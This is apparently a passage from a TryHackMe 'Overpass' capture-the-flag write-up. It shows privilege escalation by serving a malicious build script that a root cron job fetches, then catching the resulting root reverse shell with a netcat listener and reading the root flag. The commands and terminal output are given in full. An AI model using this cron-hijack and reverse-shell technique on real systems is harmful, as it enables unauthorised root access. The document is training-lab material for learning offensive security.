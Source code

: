### Step 3

Run a server to host your malicious bashscript. There are many ways to create a server, I did it with python since it is easy.
```bash
$ python3 -m http.server 80
```

Note: I hosted the server in port 80 since the cron job is going to request for the default port

### Step 4

In another tab, listen for incoming requests using netcat in port 8080.
```bash
nc -lvpn 8080
```

The server will send request every 1min:
```bash
┌──(root㉿subhro)-[/home/subhro1530/Desktop/tryhackme/Overpass]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.35.187 - - [10/Jul/2023 05:28:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.35.187 - - [10/Jul/2023 05:29:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.35.187 - - [10/Jul/2023 05:30:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.35.187 - - [10/Jul/2023 05:31:02] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.35.187 - - [10/Jul/2023 05:32:02] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

The netcat catches the request and redirects it to the local folders:
```bash
┌──(subhro1530㉿subhro)-[~/Desktop/tryhackme/Overpass]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.17.28.202] from (UNKNOWN) [10.10.35.187] 43686
bash: cannot set terminal process group (3468): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# ls
ls
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
 
```
We got the root..!